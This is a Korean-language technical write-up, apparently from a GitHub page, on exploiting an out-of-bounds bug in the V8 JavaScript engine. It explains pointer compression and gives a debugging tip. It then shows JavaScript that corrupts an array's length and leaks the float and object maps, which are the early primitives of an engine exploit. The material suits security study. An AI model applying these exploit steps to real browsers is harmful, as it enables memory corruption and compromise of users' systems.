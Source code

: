 
## 익스플로잇

- 2020년 초에 `pointer compression`이 추가되었다.

  - 공식문서: https://v8.dev/blog/pointer-compression)
  - 간단하게 요약하자면 64비트 아키텍쳐에서 32비트 포인터를 사용하여 메모리를 절약하는 기술이다.

- pointer compression이 추가되기 전

  ![Untitled](https://user-images.githubusercontent.com/43925259/91581799-e6c9d600-e989-11ea-93ab-df797e639e12.png)

- pointer compression이 추가된 이후

  ![Untitled (1)](https://user-images.githubusercontent.com/43925259/91581809-e9c4c680-e989-11ea-8801-614279346c8e.png)

- pointer compression이 걸리기 이전에 Smi를 표현할 때 총 8byte의 공간을 사용했고 값이 들어가는 부분은 상위 4byte뿐이었다. 하지만 이젠 총 4byte의 공간만 사용한다.

- pointer compression이 걸리기 이전에 Pointer를 표현할 때 총 8byte의 공간을 사용했고 6byte의 값이 메모리에 쓰였는데, 상위 2byte의 값(base)이 다르게 메모리에 저장되진 않기 때문에 하위 4byte의 값(offset)만 저장하는 방식이다.

- 단 double 데이터가 포함된 unboxed array는 64비트로 저장된다.

  - unboxed array란 object가 포함되지 않은 배열이다.

  

- 디버깅 팁

  - gdb에서 poc를 로드하면 트리거 되지 않는다.

  - 코드 상에서 멈추고 싶은 부분에 **while 문을 통한 무한 루프**를 구성하고, `attach`를 하면 POC를 트리거 한 채로 디버깅이 가능했다.

    

- **oob**가 발생하는 배열의 뒤에 `float_arr`과 `obj_arr`을 선언한다.

  ```jsx
  oob       = [1.1, 1.2, 1.3, 1.4];
  float_arr = [2.1, 2.2, 2.3, 2.4];
  obj_arr   = [{}].slice();
  
  // change the arr length
  f(oob, 0);
  
  print("[+] LENGTH   : " + oob.length);
  // [+] LENGTH   : -1
  ```

  

- **oob_read 취약점**을 통해 `float_map`과 `object_map`을 leak할 수 있는데 `pointer compression`이 걸려있어서 4byte씩 끊어서 가져와야한다.

  ```jsx
  aa = (ftoi(oob[14])) 
  ah = aa >> 32n // float map
  al = aa & 0xffffffffn
  
  bb = (ftoi(oob[25])) 
  bh = bb >> 32n
  bl = bb & 0xffffffffn // object map
  
  print ('[+] float  map: ' + hex(ah));
  print ('[+] object map  : ' + hex(bl));
  ```
